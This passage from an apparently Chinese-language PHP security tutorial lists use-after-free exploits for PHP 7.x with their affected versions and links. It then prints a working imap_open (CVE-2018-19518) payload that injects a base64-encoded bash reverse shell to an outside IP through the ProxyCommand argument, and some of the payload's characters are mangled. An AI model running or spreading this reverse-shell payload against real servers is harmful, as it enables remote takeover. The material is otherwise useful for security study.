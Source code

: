 Exploits ：

[https://github.com/mm0r1/exploits](https://github.com/mm0r1/exploits)

#### <a class="reference-link" name="(1)%20Use%20after%20free%20with%20json%20serializer"></a>(1) Use after free with json serializer

[https://bugs.php.net/bug.php?id=77843](https://bugs.php.net/bug.php?id=77843)
<li>适用目标：
<ul>
- 7.1 – all versions to date
- 7.2 &lt; 7.2.19 (released: 30 May 2019)
- 7.3 &lt; 7.3.6 (released: 30 May 2019)
php-json-bypass

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0172b6a34b25f3655f.png)

#### <a class="reference-link" name="(2)%20Use%20After%20Free%20in%20GC%20with%20Certain%20Destructors"></a>(2) Use After Free in GC with Certain Destructors

[https://bugs.php.net/bug.php?id=72530](https://bugs.php.net/bug.php?id=72530)
<li>适用目标：
<ul>
- 7.0 – all versions to date
- 7.1 – all versions to date
- 7.2 – all versions to date
- 7.3 – all versions to date
php7-gc-bypass

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01ca96b5a1ec0b7d1d.png)

测试在 ubuntu16.04 + PHP 7.1.33 的环境下两个 exp 都是可以正常使用的，但如果是在 Docker 或者是其他环境下那就不一定了

### <a class="reference-link" name="11.%20PHP%20imap_open%20RCE%20%E6%BC%8F%E6%B4%9E%20%EF%BC%88CVE-2018-19518%EF%BC%89"></a>11. PHP imap_open RCE 漏洞 （CVE-2018-19518）

要求 PHP 安装 imap 模块

反弹 shell payload：

```
&lt;?php
$payload = "/bin/bash -i &gt;&amp; /dev/tcp/192.168.214.107/7777 0&gt;&amp;1";
$base64 = base64_encode($payload);
$server = "any -oProxyCommand=echot`{`$base64`}`|base64t-d|bash";
@imap_open("`{`".$server."`}`:143/imap`}`INBOX","","");
```

[![](https://p1.ssl.qhimg.com/t01fe6356bfd0655c17.png)](https://p1.ssl.qhimg.com/t01fe6356bfd0655c17.png)

